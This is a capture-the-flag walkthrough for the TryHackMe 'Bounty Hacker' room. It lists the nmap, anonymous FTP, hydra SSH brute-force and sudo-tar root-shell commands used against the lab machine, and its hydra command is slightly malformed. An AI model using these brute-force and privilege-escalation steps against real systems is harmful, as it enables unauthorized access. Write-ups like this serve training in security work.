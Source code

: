 ### Bounty Hacker CTF Writeup

## Link: https://tryhackme.com/room/cowboyhacker

Our first step is to always begin with enumeration, we can use alot of tools to do this but we are going to use the most popular enumeration tool called 'Nmap' 

`┌──(--㉿kali)-[~]
└─$ nmap 10.10.81.164 -sV -sC
`



`
PORT   STATE SERVICE VERSION
`



`
21/tcp open  ftp     vsftpd 3.0.3
`



`
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
`



`
80/tcp open  http    Apache httpd 2.4.18 
`



From this Nmap scan we see that there are 3 ports open: port 21, 22 and 80
Importantly, we see that on port 21 there is 'Anonymous FTP login allowed' (This means that we can login as user anonymous and provide no password)


### The web-server:

If he head over to the website running this machine (which you can access by going to http://<machine_ip>) we are greeted by this main page:

![image](https://github.com/traveller404/Bounty-Hacker-CTF-/assets/92340426/757a9125-6535-4cee-af12-d83a835361d5)

Reading through this we are greeted by characters called Spike, Jet, Ed and Faye and we also learn of 2 other people called Edward and Ein.
These could be possible usernames for the ssh service running on port 22.

Inspecting the source code of the webpage reveals nothing ontop of this.

### The FTP service:

Log into the FTP service on the machine with the following command:

ftp <machine_ip>

Connected to 10.10.81.164.
Name (10.10.81.164:--): anonymous

230 Login successful.

Using `ls` we can see the files on this ftp service and we are told there are 2 .txt files, tasks.txt and locks.txt
Use `mget *` as a means to get all files to your local device then exit the ftp service

### SSH Access

The contents of task.txt contains another person, Lin (*another username*) but locks.txt is more useful
It is a file containing presumably passwords, and with the list of potential usernames we collected earlier from the website and Lin from task.txt, its time to commence a brute force attack

To do this attack we must make a file containing the usernames, which for convenience sake we will call users.txt and then write our command

`hydra -l users.txt -P locks.txt ssh://<machine_ip -V>`

SUCCESS!!! 
We now have a username and password

### Privelege Escalation

`ssh <user>@<machine_ip>`

Logging on we see the first flag, which you can get yourself
But we are not done, we need to get the root flag, which we dont have access to, we need to escalate our privelleges
Using `sudo -l` we can see what we can run as sudo, which is tar, go to https://gtfobins.github.io/# and search up tar, I will let you do this on your own

If you have found the right command it should be 
`sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`

Executing this gives us root permissions, meaning we have full control over the machine
Change to /root and get the flag

I hope this helps!!
